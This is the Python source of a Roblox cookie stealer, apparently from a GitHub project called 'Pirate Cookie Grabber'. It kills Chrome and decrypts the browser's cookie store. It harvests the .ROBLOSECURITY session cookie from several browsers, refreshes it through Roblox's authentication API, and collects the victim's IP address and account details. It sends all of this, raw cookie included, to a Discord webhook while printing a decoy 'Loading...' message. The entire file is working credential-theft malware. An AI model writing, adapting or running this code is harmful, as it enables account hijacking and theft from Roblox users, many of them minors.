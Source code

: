 -import os
import json
import base64
import browser_cookie3
import sqlite3
import subprocess
import shutil
import win32crypt
from Crypto.Cipher import AES
from discordwebhook import Discord
import httpx
import re
import requests
import robloxpy

try:
    subprocess.call("TASKKILL /f /IM CHROME.EXE")
except FileNotFoundError:
    print("")

webhook_url = 'heh'

dummy_message = "Loading..."
print(dummy_message)

def get_encryption_key():
    local_state_path = os.path.join(os.environ["USERPROFILE"],
                                    "AppData", "Local", "Google", "Chrome",
                                    "User Data", "Local State")
    with open(local_state_path, "r", encoding="utf-8") as f:
        local_state = f.read()
        local_state = json.loads(local_state)

    key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])[5:]
    return win32crypt.CryptUnprotectData(key, None, None, None, 0)[1]


def decrypt_data(data, key):
    try:
        iv = data[3:15]
        data = data[15:]
        cipher = AES.new(key, AES.MODE_GCM, iv)
        return cipher.decrypt(data)[:-16].decode()
    except:
        try:
            return str(win32crypt.CryptUnprotectData(data, None, None, None, 0)[1])
        except:
            return ""


def CookieLog():
    db_path = os.path.join(os.environ["USERPROFILE"], "AppData", "Local",
                           "Google", "Chrome", "User Data", "Default", "Network", "Cookies")
    filename = "Cookies.db"
    if not os.path.isfile(filename):
        shutil.copyfile(db_path, filename)

    db = sqlite3.connect(filename)
    db.text_factory = lambda b: b.decode(errors="ignore")
    cursor = db.cursor()

    cursor.execute("""
    SELECT encrypted_value 
    FROM cookies WHERE name='.ROBLOSECURITY'""")

    key = get_encryption_key()
    for encrypted_value, in cursor.fetchall():
        decrypted_value = decrypt_data(encrypted_value, key)
        return decrypted_value
    db.close()

def PlanB():
    data = [] # data[0] == All Cookies (Used For Requests) // data[1] == .ROBLOSECURITY Cookie (Used For Logging In To The Account)

    try:
        cookies = browser_cookie3.firefox(domain_name='roblox.com')
        for cookie in cookies:
            if cookie.name == '.ROBLOSECURITY':
                data.append(cookies)
                data.append(cookie.value)
                return data
    except:
        pass
    try:
        cookies = browser_cookie3.chromium(domain_name='roblox.com')
        for cookie in cookies:
            if cookie.name == '.ROBLOSECURITY':
                data.append(cookies)
                data.append(cookie.value)
                return data
    except:
        pass

    try:
        cookies = browser_cookie3.edge(domain_name='roblox.com')
        for cookie in cookies:
            if cookie.name == '.ROBLOSECURITY':
                data.append(cookies)
                data.append(cookie.value)
                return data
    except:
        pass

    try:
        cookies = browser_cookie3.opera(domain_name='roblox.com')
        for cookie in cookies:
            if cookie.name == '.ROBLOSECURITY':
                data.append(cookies)
                data.append(cookie.value)
                return data
    except:
        pass

    try:
        cookies = browser_cookie3.chrome(domain_name='roblox.com')
        for cookie in cookies:
            if cookie.name == '.ROBLOSECURITY':
                data.append(cookies)
                data.append(cookie.value)
                return data
    except:
        pass


cookies = PlanB()

if CookieLog() == None:
    PlanB()

def get_local_ip():
    ip = requests.get('http://api.ipify.org').text
    return ip


def refresh_cookie(auth_cookie):
    csrf_token = generate_csrf_token(auth_cookie)
    headers, cookies = generate_headers(csrf_token, auth_cookie)

    req = httpx.post("https://auth.roblox.com/v1/authentication-ticket",
                     headers=headers, cookies=cookies, json={})
    auth_ticket = req.headers.get("rbx-authentication-ticket", "Failed to get authentication ticket")

    headers.update({"RBXAuthenticationNegotiation": "1"})

    req1 = httpx.post("https://auth.roblox.com/v1/authentication-ticket/redeem",
                      headers=headers, json={"authenticationTicket": auth_ticket})
    new_auth_cookie = re.search(".ROBLOSECURITY=(.*?);", req1.headers["set-cookie"]).group(1)

    return new_auth_cookie


def generate_csrf_token(auth_cookie):
    csrf_req = httpx.get("https://www.roblox.com/home", cookies={".ROBLOSECURITY": auth_cookie})
    csrf_txt = csrf_req.text.split("<meta name=\"csrf-token\" data-token=\"")[1].split("\" />")[0]
    return csrf_txt


def generate_headers(csrf_token, auth_cookie):
    headers = {
        "Content-Type": "application/json",
        "user-agent": "Roblox/WinInet",
        "origin": "https://www.roblox.com",
        "referer": "https://www.roblox.com/my/account",
        "x-csrf-token": csrf_token
    }

    cookies = {".ROBLOSECURITY": auth_cookie}

    return headers, cookies


if __name__ == "__main__":
    cookie = CookieLog()

    check = robloxpy.Utils.CheckCookie(cookie).lower()
    if check != "valid cookie":
        cookie = refresh_cookie(cookie)

    ip_address = get_local_ip()
    roblox_cookie = cookie

    info = json.loads(requests.get("https://www.roblox.com/mobileapi/userinfo", cookies={".ROBLOSECURITY": roblox_cookie}).text)
    roblox_id = info["UserID"]
    rap = robloxpy.User.External.GetRAP(roblox_id)
    friends = robloxpy.User.Friends.External.GetCount(roblox_id)
    age = robloxpy.User.External.GetAge(roblox_id)
    creation_date = robloxpy.User.External.CreationDate(roblox_id)
    rolimons = f"https://www.rolimons.com/player/{roblox_id}"
    roblox_profile = f"https://web.roblox.com/users/{roblox_id}/profile"
    headshot_raw = requests.get(f"https://thumbnails.roblox.com/v1/users/avatar-headshot?userIds={roblox_id}&size=420x420&format=Png&isCircular=false").text
    headshot_json = json.loads(headshot_raw)
    headshot = headshot_json["data"][0]["imageUrl"]

    username = info['UserName']
    robux = info['RobuxBalance']
    premium_status = info['IsPremium']

    discord = Discord(url=webhook_url)
    discord.post(
        username="BOT - Pirate 🍪",
        avatar_url="https://cdn.discordapp.com/attachments/1238207103894552658/1258507913161347202/a339721183f60c18b3424ba7b73daf1b.png?ex=66884c54&is=6686fad4&hm=4a7fe8ae14e5c8d943518b69a5be029aa8bc2b5a4861c74db4ef05cf62f56754&",
        embeds=[
            {
                "title": "💸 +1 Result Account 🕯️",
                "thumbnail": {"url": headshot},
                "description": f"[Github Page](https://github.com/Mani175/Pirate-Cookie-Grabber) | [Rolimons]({rolimons}) | [Roblox Profile]({roblox_profile})",
                "fields": [
                    {"name": "Username", "value": f"```{username}```", "inline": True},
                    {"name": "Robux Balance", "value": f"```{robux}```", "inline": True},
                    {"name": "Premium Status", "value": f"```{premium_status}```", "inline": True},
                    {"name": "Creation Date", "value": f"```{creation_date}```", "inline": True},
                    {"name": "RAP", "value": f"```{rap}```", "inline": True},
                    {"name": "Friends", "value": f"```{friends}```", "inline": True},
                    {"name": "Account Age", "value": f"```{age}```", "inline": True},
                    {"name": "IP Address", "value": f"```{ip_address}```", "inline": True},
                ],
            }
        ],
    )

    discord.post(
        username="BOT - Pirate 🍪",
        avatar_url="https://cdn.discordapp.com/attachments/1238207103894552658/1258507913161347202/a339721183f60c18b3424ba7b73daf1b.png?ex=66884c54&is=6686fad4&hm=4a7fe8ae14e5c8d943518b69a5be029aa8bc2b5a4861c74db4ef05cf62f56754&",
        embeds=[
            {"title": ".ROBLOSECURITY", "description": f"```{roblox_cookie}```"}
        ],
    )

